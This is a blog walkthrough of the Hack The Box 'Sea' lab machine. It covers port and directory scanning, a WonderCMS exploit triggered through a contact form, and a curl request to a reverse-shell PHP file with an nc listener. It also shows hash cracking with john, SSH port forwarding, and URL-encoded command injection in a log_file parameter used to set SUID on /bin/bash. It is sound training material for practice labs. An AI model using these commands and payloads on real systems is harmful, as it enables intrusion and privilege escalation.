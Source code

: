 ```yaml
---
layout: post
title: 'Sea Walkthrough: Conquering Hack The Box Season 6 "Sea htb"'
date: 14-08-2024
categories: [HackTheBox]
tag: season 6 
---
```

# Sea Walkthrough: Conquering Hack The Box Season 6 "Sea Machine"

![](/img/1.png)

## Introduction  

 __Hack The Box Season 6, "Sea Machine," is a thrilling cybersecurity competition with a nautical theme, offering challenges that simulate real-world hacking scenarios. Participants test their skills in areas like web exploitation, cryptography, and network security. It's an exciting opportunity for both beginners and experts to sharpen their hacking abilities in a competitive, engaging environment.__



## Reconnaissance

 Network Scanning: as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ```
    -─(hu1k0㉿kali)-[~/Desktop/HTB]
    └─$ sh nmap.sh 10.10.11.28
    Performing initial scan on 10.10.11.28...
    Open ports: 22,80
    Performing detailed scan on 10.10.11.28...
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-title: Sea - Home
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 then I browsed the site but didn't find anything interesting.
 
 ![](/img/vv1.png)
 ![](/img/vv2.png)
 

## directory discovery

 - __for directory discovery i use [ffuf](https://www.kali.org/tools/ffuf/) tool.__

 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports] 
  └─$ ffuf -u http://sea.htb//FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 

 ```
 ![fufu1](/img/fffffu.png)
 
 - __first i go for '200' directories {contact.php}__
 - __i try some xss and sqli but no response__
  
  ![](/img/contact.png)

 - __then i tried all '301' directories but all give me Forbidden.__

  * messages , data , plugins , themes ...

 ![](/img/for.png)

 * then i back to http://sea.htb/ and press 'ctrl+u' to view-source:
  i notice this pass "http://10.10.11.28/themes/bike/css/style.css" which $bike$ is unique so i back and try to see what under this directory "/themes/bike/" 
 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports]
  └─$ ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .txt,.md,.php 
 ```
 ![](/img/rrrrr.png)

 - i go for '200' status

  README.md , version , summary , LICENSE..

 ![](/img/readme.png) 

 ![](/img/version.png)

## exploit

 - __so i go and search about it__  [Link.](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) 

 ![](/img/exploit.png)

 - Usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252

 ![](/img/exlll.png)
 
 __We can send the link by Contact form to the admin__

 ![](/img/sewee.png)
 
 - now after reading the exploit script we will find it create a shell file in this pass {/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port}

 - so we will send a request by [Curl](https://curl.se/docs/tooldocs.html)

 > curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.65&lport=9999'

 ![](/img/curl.png)
 
 > nc -nvlp 9999

 yup and we get the shell 

 ![](/img/shell.png) 
 
 now i will try to find any data to help me to get ``amay`` access
 
 ![](/img/db1.png)
 
 > cat database.js 

 ![](/img/333.png)

 * i found hash don't forget to remove a backslash \

 then i will use [johntheripper](https://www.kali.org/tools/john/) to crack this hash

 > john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

 - __now i have ```user``` and ```password``` i will to connect to ```ssh```__

 > ssh amay@10.10.11.28

 ![](/img/user.png)

## Privilege Escalation 

 - i download [linpeas.sh](https://github.com/XDev05/PEASS-ng/blob/master/linPEAS/linpeas.sh) to scan this machine 

 ![](/img/linpeas.png)

 > chmod +x linpeas.sh
 > ./linpeas.h

 ![](/img/biong.png)

 - __we have something open in localhost in this port so to access that there is a technique called Port Forwarding. It basically takes a user’s port and redirect it’s traffic to our port. To do that we have to run the following command.__

 > ssh -L 8888:10.10.16.6:8080 amay@10.10.16.6

 __and open in my browser ```127.0.0.1:8888``` and access with same ssh data..__

 ![](/img/yyyy.png)

 i will try command injection. add simicolon after [log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;]  then encode url the comman "touch /home/amay/hulk.hack" =>> "%74%6f%75%63%68%20%2f%68%6f%6d%65%2f%61%6d%61%79%2f%68%75%6c%6b%2e%68%61%63%6b" 

 ![](/img/sert.png)

 ![](/img/tert.png)

 - __and it's WORK !!__
 
 - then i try this command 
 ```"chmod u+s /bin/bash" =>> "%63%68%6d%6f%64%20%20%75%2b%73%20%20%2f%62%69%6e%2f%62%61%73%68"```

 ![](/img/q33.png)

 * then go to ssh connection and type.
 > /bin/bash -p 

 ![](/img/root.png) 